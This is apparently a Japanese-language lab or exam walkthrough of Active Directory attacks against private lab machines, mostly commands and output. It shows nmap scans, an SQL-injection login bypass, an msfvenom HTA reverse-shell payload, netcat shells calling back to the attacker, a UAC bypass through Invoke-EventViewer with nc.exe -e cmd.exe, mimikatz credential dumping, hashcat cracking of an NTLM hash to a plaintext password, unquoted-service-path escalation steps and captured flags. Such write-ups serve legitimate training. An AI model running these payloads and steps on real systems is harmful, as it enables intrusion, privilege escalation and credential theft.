


# Active Directory Attacks II - VM Group 1


```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-22 23:08 JST
Warning: 192.168.205.170 giving up on port because retransmission cap hit (1).
Nmap scan report for 192.168.205.170
Host is up (0.25s latency).
Not shown: 988 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 26.72 seconds
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-22 23:08 JST
Nmap scan report for 192.168.205.170
Host is up (0.25s latency).
Not shown: 988 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 12.59 seconds
```

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-22 23:08 JST
Nmap scan report for 192.168.205.171
Host is up (0.25s latency).
Not shown: 991 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
1433/tcp open  ms-sql-s
3306/tcp open  mysql
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy
8443/tcp open  https-alt

Nmap done: 1 IP address (1 host up) scanned in 11.19 seconds
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-22 23:08 JST
Warning: 192.168.205.171 giving up on port because retransmission cap hit (1).
Nmap scan report for 192.168.205.171
Host is up (0.25s latency).
Not shown: 991 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
1433/tcp open  ms-sql-s
3306/tcp open  mysql
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy
8443/tcp open  https-alt

Nmap done: 1 IP address (1 host up) scanned in 15.84 seconds
```

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-22 23:08 JST
Nmap scan report for 192.168.205.171
Host is up (0.25s latency).
Not shown: 991 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
1433/tcp open  ms-sql-s
3306/tcp open  mysql
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy
8443/tcp open  https-alt

Nmap done: 1 IP address (1 host up) scanned in 11.19 seconds
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-22 23:08 JST
Warning: 192.168.205.171 giving up on port because retransmission cap hit (1).
Nmap scan report for 192.168.205.171
Host is up (0.25s latency).
Not shown: 991 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
1433/tcp open  ms-sql-s
3306/tcp open  mysql
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy
8443/tcp open  https-alt

Nmap done: 1 IP address (1 host up) scanned in 15.84 seconds
```

192.168.205.171のport80アクセスする



usernameに「’ or 1=1 --」を入力してSQLiを実行する



リーバスシェルのペイロード作成
参照： https://securiumsolutions.org/windows-hacking-with-hta-file-metasploit-framework/

```
┌──(kali㉿kali)-[~/Training]
└─$ sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.205 LPORT=443 -f hta-psh -o /var/www/html/shell.hta
[sudo] kali のパスワード:
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hta-psh file: 7366 bytes
Saved as: /var/www/html/shell.hta
```

apache2を起動

```
┌──(kali㉿kali)-[~]
└─$ service apache2 start  
```

リスナー起動

```
┌──(kali㉿kali)-[~/Training]
└─$ rlwrap nc -lvnp 443                            
listening on [any] 443 ...
```

「URL」欄に「http://192.168.205.171/shell.hta 」 を入力


シェルが返ってくる

```
┌──(kali㉿kali)-[~/Training]
└─$ rlwrap nc -lvnp 443                            
listening on [any] 443 ...
connect to [192.168.119.205] from (UNKNOWN) [192.168.205.172] 49931
Microsoft Windows [Version 10.0.18363.1316]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
exam\ted
C:\Windows\system32>cd c:\Users\Administrator\Desktop
c:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 7237-EFA9

 Directory of c:\Users\Administrator\Desktop

11/22/2022  05:10 AM    <DIR>          .
11/22/2022  05:10 AM    <DIR>          ..
11/22/2022  05:10 AM                78 flag.txt
11/16/2020  04:31 AM             1,450 Microsoft Edge.lnk
               2 File(s)          1,528 bytes
               2 Dir(s)   7,772,516,352 bytes free

c:\Users\Administrator\Desktop>type flag.txt
type flag.txt
OS{f80c2b9c5f6d037ace43d805d3ea1ce9}
```

# Active Directory Attacks II - VM Group 2
## <span style="color:red;">UAC回避</span> ##

※Discord参照   
nc.exeとInvoke-EventViewer.ps1をターゲット端末にコピー  
nc.exeでリバースシェルを取得する


```
┌──(kali㉿kali)-[~/Practice]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.119.126] from (UNKNOWN) [192.168.126.172] 51544
Microsoft Windows [Version 10.0.18363.1316]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd c:\tmp
cd c:\tmp
c:\tmp>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 7237-EFA9
 Directory of c:\tmp
12/08/2022  03:13 PM    <DIR>          .
12/08/2022  03:13 PM    <DIR>          ..
12/08/2022  02:46 PM           290,485 bypassuac-64.exe
12/08/2022  03:13 PM             3,326 Invoke-EventViewer.ps1
12/08/2022  03:13 PM            28,160 nc.exe
12/08/2022  02:38 PM                 0 PsExec64.exe
12/08/2022  02:38 PM             7,168 re4444.exe
12/08/2022  02:22 PM                 0 reg
12/08/2022  02:30 PM           164,008 strings64.exe
12/08/2022  02:12 PM            35,766 winPEAS.bat
               8 File(s)        528,913 bytes
               2 Dir(s)   7,754,104,832 bytes free

c:\tmp>powershell -exec bypass -nop
powershell -exec bypass -nop
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\tmp> Import-Module .\Invoke-EventViewer.ps1
Import-Module .\Invoke-EventViewer.ps1
PS C:\tmp> Invoke-EventViewer "C:\tmp\nc.exe 192.168.119.126 4444 -e cmd.exe"
Invoke-EventViewer "C:\tmp\nc.exe 192.168.119.126 4444 -e cmd.exe"
[+] Running
[1] Crafting Payload
[2] Writing Payload
[+] EventViewer Folder exists
[3] Finally, invoking eventvwr
PS C:\tmp> 
```

リスナーで受信


```
c:\tmp>mimikatz.exe "privilege::debug" "token:elevate" "sekurlsa::logonpasswords" "lsadump::/inject" "lsadump::sam" "exit"
mimikatz.exe "privilege::debug" "token:elevate" "sekurlsa::logonpasswords" "lsadump::/inject" "lsadump::sam" "exit"
```

```
┌──(kali㉿kali)-[/var/www/html]
└─$ hashcat -m 1000 31aa99ebd6ea4b6d07051acfd48efa35 /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting
...

31aa99ebd6ea4b6d07051acfd48efa35:avatar123  
```

192.168.126.171にRDPで接続する   
user:ted   
password:avatar123   


# Active Directory Attacks II - VM Group 3
1. 192.168.127.171にリバースシェルをuploadする   
2. リバースシェルを受信   
3. wmicでダブルクオートで囲われていないサービスを探す   
4. リバースシェルをリネームしてコピーする   
5. windowsを再起動してサービスを再起動する

リバースシェルをもう一度つなぎ直す
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444       
listening on [any] 4444 ...
connect to [192.168.119.126] from (UNKNOWN) [192.168.126.171] 49748
Microsoft Windows [Version 10.0.17763.1757]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
exam\zensvc

C:\Windows\system32>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Disabled
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Disabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Disabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Disabled
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeDebugPrivilege                          Debug programs                                                     Disabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled 
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Disabled
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled 
SeCreateGlobalPrivilege                   Create global objects                                              Enabled 
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
SeTimeZonePrivilege                       Change the time zone                                               Disabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Disabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Disabled

C:\Windows\system32>cd c:/users
cd c:/users

c:\Users>cd administrator/desktop
cd administrator/desktop

c:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 3A47-4458

 Directory of c:\Users\Administrator\Desktop

12/08/2022  07:21 PM    <DIR>          .
12/08/2022  07:21 PM    <DIR>          ..
12/08/2022  07:21 PM                78 flag.txt
               1 File(s)             78 bytes
               2 Dir(s)   4,441,583,616 bytes free

c:\Users\Administrator\Desktop>cat flag.txt
cat flag.txt
'cat' is not recognized as an internal or external command,
operable program or batch file.

c:\Users\Administrator\Desktop>type flag.txt
type flag.txt
OS{0c4b361397f4fe5277632c3e7d5dfea9}
```

# Active Directory Attacks II - VM Group 4


